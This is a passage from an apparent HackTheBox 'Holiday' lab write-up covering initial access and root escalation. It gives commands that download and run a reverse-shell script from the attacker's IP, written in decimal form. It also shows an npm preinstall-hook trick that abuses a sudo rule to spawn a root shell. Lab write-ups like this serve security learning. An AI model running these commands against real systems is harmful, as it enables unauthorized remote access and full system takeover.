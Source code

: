 
`10.10.14.18=168431122`. Here are the commands I executed to get a shell:

```bash
wget 168431122/rev
bash rev
```

![](../../../.gitbook/assets/htb-holiday-image-24.png)

## Privilege Escalation

### Sudo Npm -> Root

This user had `sudo` privileges:

```
algernon@holiday:~$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

This can be exploited using the script on GTFOBins:

```bash
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo /usr/bin/npm i --unsafe-perm
```

![](../../../.gitbook/assets/htb-holiday-image-25.png)
